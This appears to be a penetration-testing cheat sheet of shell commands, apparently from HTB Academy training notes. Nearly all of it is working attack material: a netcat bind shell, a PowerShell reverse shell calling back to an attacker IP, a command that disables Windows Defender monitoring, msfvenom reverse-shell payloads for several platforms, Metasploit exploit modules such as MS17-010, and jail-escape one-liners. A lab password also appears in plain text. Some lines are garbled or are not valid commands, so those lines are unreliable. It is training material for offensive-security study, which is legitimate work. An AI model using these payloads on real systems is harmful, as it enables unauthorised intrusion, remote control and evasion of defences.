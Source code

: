 # Open shells

Here is the reformatted text:

## CLI-based tool used to connect to a Windows target using the Remote Desktop Protocol
```
xfreerdp /v:10.129.x.x /u:htb-student /p:HTB_@cademy_stdnt!
```

## Works with many different command language interpreters to discover the environmental variables of a system. This is a great way to find out which shell language is in use
```
env
```

## Starts a `netcat` listener on a specified port
```
sudo nc -lvnp <port #>
```

## Connects to a netcat listener at the specified IP address and port
```
nc -nv <ip address of computer with listener started><port being listened on>
```

## Uses netcat to bind a shell (`/bin/bash`) the specified IP address and port. This allows for a shell session to be served remotely to anyone connecting to the computer this command has been issued on
```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

## `Powershell` one-liner used to connect back to a listener that has been started on an attack box
```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

## Powershell command using to disable real time monitoring in `Windows Defender`
```
Set-MpPreference -DisableRealtimeMonitoring $true
```

## Metasploit exploit module that can be used on vulnerable Windows system to establish a shell session utilizing `smb` & `psexec`
```
use exploit/windows/smb/psexec
```

## Command used in a meterpreter shell session to drop into a `system shell`
```
shell
```

## `MSFvenom` command used to generate a linux-based reverse shell `stageless payload`
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > nameoffile.elf
```

## MSFvenom command used to generate a Windows-based reverse shell stageless payload
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > nameoffile.exe
```

## MSFvenom command used to generate a MacOS-based reverse shell payload
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f macho > nameoffile.macho
```

## MSFvenom command used to generate a ASP web reverse shell payload
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.113 LPORT=443 -f asp > nameoffile.asp
```

## MSFvenom command used to generate a JSP web reverse shell payload
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f raw > nameoffile.jsp
```

## MSFvenom command used to generate a WAR java/jsp compatible web reverse shell payload
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f war > nameoffile.war
```

## Metasploit exploit module used to check if a host is vulnerable to `ms17_010`
```
use auxiliary/scanner/smb/smb_ms17_010
```

## Metasploit exploit module used to gain a reverse shell session on a Windows-based system that is vulnerable to ms17_010
```
use exploit/windows/smb/ms17_010_psexec
```

## Metasploit exploit module that can be used to optain a reverse shell on a vulnerable linux system hosting `rConfig 3.9.6`
```
use exploit/linux/http/rconfig_vendors_auth_file_upload_rce
```

## Python command used to spawn an `interactive shell` on a linux-based system
```
python -c 'import pty; pty.spawn("/bin/sh")'
```

## Spawns an interactive shell on a linux-based system
```
/bin/sh -i
```

## Uses `perl` to spawn an interactive shell on a linux-based system
```
perl —e 'exec "/bin/sh";'
```

## Uses `ruby` to spawn an interactive shell on a linux-based system
```
ruby: exec "/bin/sh"
```

## Uses `Lua` to spawn an interactive shell on a linux-based system
```
Lua: os.execute('/bin/sh')
```

## Uses `awk` command to spawn an interactive shell on a linux-based system
```
awk 'BEGIN {system("/bin/sh")}'
```

## Uses `find` command to spawn an interactive shell on a linux-based system
```
find / -name nameoffile 'exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
```

## An alternative way to use the `find` command to spawn an interactive shell on a linux-based system
```
find . -exec /bin/sh \; -quit
```

## Uses the text-editor `VIM` to spawn an interactive shell. Can be used to escape "jail-shells"
```
vim -c ':!/bin/sh'
```
